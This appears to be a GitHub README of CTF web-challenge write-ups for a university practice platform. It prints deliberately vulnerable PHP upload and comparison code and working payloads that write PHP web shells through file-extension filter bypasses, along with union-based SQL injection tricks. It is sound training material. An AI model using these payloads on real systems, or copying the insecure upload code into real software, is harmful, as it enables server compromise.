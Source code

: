 # TCTF v2 
TCTF v2 is the CTF practice platform for MasonCC, and I have put up some web challenge on it. It is pity that I cannot keep all challenges running on server. Therefore, I would give my writeup of web challenge here. Welcome to take source code of challenges if you are interested in anyone.  
*  [Cover Peasy](#cover-peasy)  
*  [PHP un-Siri ME](#php-un-siri-me)  
*  [Unicorn && Lion](#unicorn-and-lion)  
*  [Shorter shell](#shorter-shell)  
*  [Peasy shell not PHP](#peasy-shell-not-php)  
*  [Apache2 giv u new Shell](#apache2-giv-u-new-shell)  
*  [Destroy chllenge with ur shell?](#destroy-chllenge-with-ur-shell?)  

## Cover Peasy
Level: :star:  
see source code in ./easypeasy.txt  
```php
<meta charset="utf-8">
<?php

error_reporting(0);
if (empty($_GET['str'])) {
    echo "see source code in ./easypeasy.txt";
    die();
}else{
    $flag = trim(file_get_contents('xxxxxxxxxxx.php'));
    $url = "www.1pwnch.org";
    $str = $_GET['str'];
    $pwnch = "enjoyIt";
    @parse_str($str);
    if ($url[0] != 'QNKCDZO' && md5($url[0]) == md5('QNKCDZO')) {
        extract($_GET);
        if($pwnch == $flag){
            echo "masoncc{xxxxxxxxxxx}";
        }else{
            echo "Good! But it's not enough!";
        }
    }else{
        exit('Try angain :-)');
    }
}
?>
```

## PHP un Siri ME
Level: :star::star:  
The difficulty of this challenge is your truely understand of unserialization.  

## Unicorn and Lion
Level: :star:  
This is a very classic challenge for Union-based mysql injection.  
I won't keep source code of file in this place.  
You need to find each answer of problem from the **faq.php**.  
What's worth paying attention to is that you need to separate each results of answer.  
Here is the trick ```group_concat(column name separator 'x')```  
that ```x``` can help you separate each results.  
![union](https://github.com/shinmao/CTF-writeups/blob/master/tctf-masoncc-writeup/screenshot/union%20and%20lion.png)

## Shorter shell
Level: :star::star::star:  
[Enjoy my writeup on my blog](https://shinmao.github.io/2018/02/20/A-tiny-shell/)  
In fact, there is a classic solution to such kind of challenge: **Reverse shell**  
Thanks to @chris-issing provides his [payload](https://github.com/shinmao/CTF-writeups/blob/master/tctf-masoncc-writeup/shorter-shell-others/chriss-issing.rb) 

## Peasy shell not PHP
Level: :star:  
```php
show_source(__FILE__);

$content = $_POST['content'];
$filename = $_POST['filename'];
$filename = "backup/".$filename;

if(preg_match('/.+\.php$/i', $filename)){
    echo 'Hey! I have told you, bad boy!';
}else{
    $f = fopen($filename,'w');
    fwrite($f, $content);
    fclose($f);
}
```
Payload: ```url/?content=<?php system('ls');?>&filename=1.php3```  
Associated knowledge: ```.php4```,```php5```,```php7```,```pht```,```phtml``` can also work.  

## Apache2 giv u new Shell
Level: :star:  
```php 
show_source(__FILE__); 

$sandbox = 'sb'.md5($_SERVER['REMOTE_ADDR']);
echo 'Here is your sandbox: '.$sandbox;

@mkdir($sandbox);
@chdir($sandbox);
@exec('touch i_no_you.txt');
 
$content = $_POST['content']; 
$filename = $_POST['filename']; 
 
if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
   die("1pwnch is angry!!");
}else{
    $f = fopen($filename, 'w');
    fwrite($f, $content);
    fclose($f);
}
```
Payload: ```url/?content=<?php system('ls');?>&filename=1.php/.```  

## Destroy chllenge with ur shell?
Level: :star::star::star:  
```php
// up.php
show_source(__FILE__);
function ppwaf($file){
    $hack = file_get_contents($file);
    if(stripos($hack,'eval') === false && stripos($hack,'assert') === false && stripos($hack,'echo') === false){
        echo "good! The content of your file is secure!"."<br />";
        return true;
    }else{
        echo "You have dangerous content!"."<br />";
        return false;
    }
}

function ppname($name){
    if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $name)){
           echo "Bad file extension";
        return false;
    }else{
            return true;
        echo "good! The filename of your file is secure!"."<br />";
    }
}

if($_FILES["file"]["error"]>0){
    echo "error code: ".$_FILES["file"]["error"]."<br />";
}else{
    echo "filename: ".$_FILES["file"]["name"]."<br />";
    echo "tmp name: ".$_FILES["file"]["tmp_name"]."<br />";
    if(ppwaf($_FILES["file"]["tmp_name"]) == true && ppname($_GET['name']) == true){
            move_uploaded_file($_FILES["file"]["tmp_name"],$_GET['name']);
    }else{
        echo "I am sorry because your dangerous file!"."<br />";
    }
}
```
Payload: [Enjoy my blog](https://shinmao.github.io/web/2018/04/13/The-Magic-from-0CTF-ezDoor/)  
![payload](https://github.com/shinmao/shinmao.github.io/blob/master/assets/uploads/2018-04-13/payload.png)  
More source code at [here](https://github.com/shinmao/CTF-writeups/tree/master/myChallenge/impossible_overShell)
